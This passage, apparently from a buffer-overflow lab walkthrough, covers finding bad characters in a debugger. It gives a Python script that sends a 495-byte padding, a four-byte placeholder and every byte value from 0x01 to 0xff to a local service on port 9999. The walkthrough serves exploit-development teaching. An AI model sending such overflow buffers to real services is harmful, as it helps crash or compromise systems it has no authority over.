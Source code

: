 ![](img/42424242.png)

### Step 3: Identifying bad characters (`ollydbg`)

In order to generate a shellcode that will work, we have to identify the bad characters first:

```python
import socket
import time
import sys

# \x00
badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

offset = 495
buffer = b"A" * offset + b"B" * 4 + badchars
target = '127.0.0.1'
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```
